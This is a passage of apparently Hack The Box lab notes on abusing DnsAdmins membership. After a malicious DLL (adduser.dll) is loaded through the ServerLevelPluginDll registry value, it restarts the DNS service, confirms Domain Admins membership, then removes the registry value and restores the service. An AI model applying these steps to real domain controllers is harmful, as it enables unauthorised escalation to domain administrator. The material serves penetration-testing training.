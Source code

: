SSDL Syntaxe here

<mark style="color:green;">**Stopping the DNS Service**</mark>

```cmd-session
C:\htb> sc stop dns
```

<mark style="color:green;">**Starting the DNS Service**</mark>

```cmd-session
C:\htb> sc start dns
```

<mark style="color:green;">**Confirming Group Membership**</mark>

```cmd-session
C:\htb> net group "Domain Admins" /dom
```

***

### <mark style="color:blue;">Cleaning Up</mark>

The first step is confirming that the `ServerLevelPluginDll` registry key exists. Until our custom DLL is removed, we will not be able to start the DNS service again correctly.

```cmd-session
C:\htb> reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters
    GlobalQueryBlockList    REG_MULTI_SZ    wpad\0isatap
    EnableGlobalQueryBlockList    REG_DWORD    0x1
    PreviousLocalHostname    REG_SZ    WINLPE-DC01.INLANEFREIGHT.LOCAL
    Forwarders    REG_MULTI_SZ    1.1.1.1\08.8.8.8
    ForwardingTimeout    REG_DWORD    0x3
    IsSlave    REG_DWORD    0x0
    BootMethod    REG_DWORD    0x3
    AdminConfigured    REG_DWORD    0x1
    ServerLevelPluginDll    REG_SZ    adduser.dll
```

<mark style="color:green;">**Deleting Registry Key**</mark>

```cmd-session
C:\htb> reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll

Delete the registry value ServerLevelPluginDll (Yes/No)? Y
The operation completed successfully.
```

<mark style="color:green;">**Starting the DNS Service Again**</mark>

```cmd-session
C:\htb> sc.exe start dns
```

<mark style="color:green;">**Checking DNS Service Status**</mark>
